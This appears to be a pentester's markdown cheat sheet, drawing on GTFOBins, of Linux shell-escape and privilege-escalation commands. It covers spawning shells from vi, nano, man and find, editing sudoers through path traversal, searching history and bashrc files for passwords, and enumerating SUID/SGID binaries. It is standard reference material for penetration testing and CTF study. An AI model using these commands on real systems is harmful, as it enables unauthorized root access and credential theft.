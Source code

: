 # Commands to Shell

[https://gtfobins.github.io/](https://gtfobins.github.io/)

## vi

``` bash
vi -c ':!/bin/sh' /dev/null
```

``` bash
vi
:set shell=/bin/sh
:shell
```

## nano

``` bash
nano
^R^X
reset; sh 1>&0 2>&0
```

``` bash
sudo nano /var/opt/../../etc/sudoers
```

## man

``` bash 
man nikto
```

Spawn shell

In Manual page, we can execute `!/bin/bash` to spawn a shell.

``` bash
NIKTO(1)

NAME
       <snip>
           2 - Show cookies received
 Manual page nikto(1) line 1 (press h for help or q to quit)!/bin/bash
```

``` bash
┌──(Hades㉿192.168.11.130)-[11.8:13.3]~
└─$ man nikto
┌──(kali㉿kali)-[~]
└─$ 
```

Searching commands

``` bash
┌──(Hades㉿192.168.11.130)-[0.9:13.5]~
└─$ man -k '^passwd$'
passwd (1)           - change user password
passwd (1ssl)        - compute password hashes
passwd (5)           - the password file
                                                                                                                                                                            
┌──(Hades㉿192.168.11.130)-[0.9:13.6]~
└─$ man -k passwd      
chgpasswd (8)        - update group passwords in batch mode
chpasswd (8)         - update passwords in batch mode
<snip>
update-passwd (8)    - safely update /etc/passwd, /etc/shadow and /etc/group
vncpasswd (1)        - set passwords for VNC server
```

## find

``` bash
find / -name "<name>"
```

Check history, bashrc, backup

``` bash
find / -name *history* 2>/dev/null
find / -name *bashrc* -exec grep passwod {} \; 2>/dev/null
```

Binaries That AutoElevate

``` bash
find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

# find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
```

Spawn shell

``` bash
find . -exec /bin/sh \;
```